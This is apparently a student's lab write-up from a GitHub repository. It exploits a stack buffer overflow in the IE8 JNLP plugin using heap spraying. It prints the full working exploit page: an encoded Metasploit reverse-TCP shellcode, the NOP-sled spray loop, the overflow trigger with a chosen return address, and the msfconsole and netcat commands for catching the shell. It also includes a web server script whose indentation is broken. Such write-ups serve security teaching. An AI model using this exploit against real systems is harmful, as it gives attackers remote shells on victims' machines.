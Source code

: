 # Exploiting a Buffer Overflow Vulnerability in the JNLP plugin within Internet Explorer 8 with using the Heap Spraying Technique
*This is still a draft*

JNLP (Java Network Launch Protocol) enables an application to be launched on a client desktop using resources that are hosted on a remote server. A specific version of JNLP for IE8 is vulnerable to a stack-based buffer overflow: when the plugin is invoked with a **launchjnlp** parameter, it will copy the value of the **docbase** parameter to a stack buffer using `sprintf`, but fails to check the length of the value. 

The vulnerability can be triggered by the following:
```html
<object type='application/x-java-applet'>
<param name='launchjnlp' value='1'>
<param name='docbase' value='AAAAAAAA....AAAAAA'>
</object>
```

## Goal
Input a sufficiently long string in the **docbase** value such that the register $eip gets ovewritten with an address known to contain our NOP sled and shellcode. Said shellcode establishes a reverse TCP connection to another machine.

## How it's done
To demonstrate this vulnerability, a simple web server is set up to listen on port 8080. This web server shows the contents of a specific directory in which the html file (containing the exploit) is located. The html file is clicked from the client and nothing appears to happen, but the truth is that the heap is sprayed with a shellcode! It is not until the client clicks on *Click Me* that at least one the shellcodes in the heap gets executed. This shellcode consists of several NOP operations and a reversed TCP connection to a chosen IP and port. The port used is *6666*, and to simplifly the assignment's grading, the chosen IP is 127.0.0.1, which means that the command prompt will be obtained in the client instead of in the attacker's machine (or Kali, in this case).

## Specifics
1. Two machines are used to demonstrate this vulnerability. A Windows 7 VM (with DEP disabled) acts as the client, and a Kali Linux VM acts as the web server.

2. A Windows shellcode is generated with Metasploit, which is a tool already installed in Kali Linux. The instructions in this shellcode create a reverse TCP connection from said Windows machine to a chosen IP and port. In other words, these instructions would spawn the victim's command prompt in the attacker's machine; but for practicality, the IP chosen as the attacker's IP does not belong to the attacker and it is the victim's machine, 127.0.0.1. Using the attacker's IP will make the demo realistic, but it will not make it easy to the grader of this assignment.

The shellcode is generated as follows:

`msfconsole`

`use payload/windows/shell_reverse_tcp`

`set LHOST 127.0.0.1`

`set LPORT 6666`

`generate -t js_le`

In the last command, **js_le** was used because a JavaScript shellcode is needed and the Windows machine that is targeted uses Little Endian (le).

3. To accept this reverse TCP connection in Windows, the following netcat command is needed:

`nc -l -p 6666`

**-l** specifies that nc should listen for an incoming connection, and **-p** specifies the source port.

4. Windows debugger, WinDBG, is helpful to visualize the stack and heap contents and gather information for the exploit.

5. The script that sets up a web server is provided, and it looks like this:

```python
#!/usr/bin/python
#
# Python Web Server
# Serves only static files
#
# by Saumil Shah

import sys
import BaseHTTPServer
from SimpleHTTPServer import SimpleHTTPRequestHandler

port = 8080

class HandlerClass(SimpleHTTPRequestHandler):
        # Disable DNS lookups
        def address_string(self):
                    return str(self.client_address[0])
                    ServerClass = BaseHTTPServer.HTTPServer
                    Protocol = "HTTP/1.0"
                    server_address = ('0.0.0.0', port)
                    HandlerClass.protocol_version = Protocol
                    httpd = ServerClass(server_address, HandlerClass)
    try:
        sa = httpd.socket.getsockname()
        print "Serving HTTP on", sa[0], "port", sa[1], "..."
        httpd.serve_forever()
    except KeyboardInterrupt:
        print 'Shutting down the web server'
        httpd.socket.close()
```

6. To use the heap spraying technique, a string that follows the pattern "NOP Sled + Shellcode" is created in JavaScript. This string is successfully sprayed in the heap to occupy hundreds of megabytes.

7. Once we know a specific address in the heap contains the beggining of the shellcode, that is, the NOP sled, we can concatenate that address at the end of the input to **docbase** to override $eip, and therefore, be able to jump to the shellcode.

## Steps

1. Test different length inputs for **docbase** to determine the number of bytes needed to override $eip. In this case, 396 will override $eip and nothing more. This means that 392 bytes are needed just before the 4 bytes address that we want to point $eip to. This address will be determined when the heap is sprayed.

2. To spray the heap with the shellcode, an array **a** is initialized and a function **heap_spray()** is specified to populate **a**

```html
<script> 
    var a = new Array();
    function heap_spray() {
   
        var shellcode = unescape("%ue8fc%u0082%u0000%u8960%u31e5%u64c0%u508b%u8b30%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf2e2%u5752%u528b%u8b10%u3c4a%u4c8b%u7811%u48e3%ud101%u8b51%u2059%ud301%u498b%ue318%u493a%u348b%u018b%u31d6%uacff%ucfc1%u010d%u38c7%u75e0%u03f6%uf87d%u7d3b%u7524%u58e4%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u5fe0%u5a5f%u128b%u8deb%u685d%u3233%u0000%u7768%u3273%u545f%u4c68%u2677%uff07%ub8d5%u0190%u0000%uc429%u5054%u2968%u6b80%uff00%u50d5%u5050%u4050%u4050%u6850%u0fea%ue0df%ud5ff%u6a97%u6805%u007f%u0100%u0268%u1a00%u890a%u6ae6%u5610%u6857%ua599%u6174%ud5ff%uc085%u0c74%u4eff%u7508%u68ec%ub5f0%u56a2%ud5ff%u6368%u646d%u8900%u57e3%u5757%uf631%u126a%u5659%ufde2%uc766%u2444%u013c%u8d01%u2444%uc610%u4400%u5054%u5656%u4656%u4e56%u5656%u5653%u7968%u3fcc%uff86%u89d5%u4ee0%u4656%u30ff%u0868%u1d87%uff60%ubbd5%ub5f0%u56a2%ua668%ubd95%uff9d%u3cd5%u7c06%u800a%ue0fb%u0575%u47bb%u7213%u6a6f%u5300%ud5ff")

        var nops = unescape("%u9090%u9090");

        while(nops.length <= 0x100000-shellcode.length){
            nops += nops;
        }

        nops += shellcode;

        for(i = 0; i < 200; i++) {
            a[i] = nops;
            a[i].substring(0,1); //This is only used to trick the memory allocator 
        }
    }
    .  
    .
    .
</script>
```
The 0x90 bytes that conform the NOP sled have to be passed to the function **unescape()** to let javascript know that the string is already represented in hex. 

Without the second line within the for loop, the memory allocator fails to spray the heap and only allocates one block.

3. Just below the previous block of code is the following:

```html
<script>
    .
    .
    .
function trigger() {
    var buf = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + "\x95\xff\xda\x09";

    var htmlTags =
    "<object type='application/x-java-applet'>" +
    "<param name='launchjnlp' value='1'>" +
    "<param name='docbase' value='" + buf + "'>" +
    "</object>";

    document.write(htmlTags);
    }
   </script>
</head>
<body onload="heap_spray()">
    <input type="button" value="Click Me" onclick="trigger()">
</body>
```

This means that as soon as we click on the page (jnlp1.html), the heap should be sprayed because of `<body onload="heap_spray">`

Loading that page, and attaching the IE tab with WinDBG, we can search for specific bytes that we know are present in the shellcode. Like this `s 0x00000000 L?0x7FFFFFFF 90 90 90 fc e8 82 00`. This would show all of the addresses that store that set of bytes. I chose x09DAFF95 because it does not contain zeroes, and therefore, will not create null bytes in the input.

We have to make sure that our chosen address contains the NOP sled. Run `dc 09daff95`

![alt text](https://github.com/pwilthew/Systems-Security/blob/master/Heap-Spray/Screen%20Shot%202017-10-08%20at%2018.16.32.png)

3. Now that we have the address to jump to, we can append it to the end of the long string of repeated "A". This will be address that will override the value $eip. To execute the buffer overflow, we have to click on "Click Me," as the function trigger() is called immediately after doing so: `<input type="button" value="Click Me" onclick="trigger()">`

Before clicking, we need to wait for incoming TCP connections in the Windows command prompt (as explained in #3 of **Specifics**).

![alt text](https://github.com/pwilthew/Systems-Security/blob/master/Heap-Spray/Screen%20Shot%202017-10-08%20at%2018.21.55.png)

4. That should be it! The program jumped to the address that contained a shellcode and the shellcode effectively established a TCP connection to the chosen IP (127.0.0.1)

![alt text](https://github.com/pwilthew/Systems-Security/blob/master/Heap-Spray/Screen%20Shot%202017-10-08%20at%2018.21.59.png)

